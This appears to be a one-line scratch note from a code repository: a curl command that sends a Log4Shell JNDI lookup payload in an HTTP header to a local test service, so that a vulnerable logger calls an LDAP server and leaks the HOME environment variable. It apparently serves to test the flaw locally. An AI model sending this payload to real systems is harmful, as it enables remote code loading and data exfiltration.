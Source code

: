# tmp
`curl --header "my-header: \${jndi:ldap://localhost:1389/q=\${env:HOME}}" localhost:8080/test`
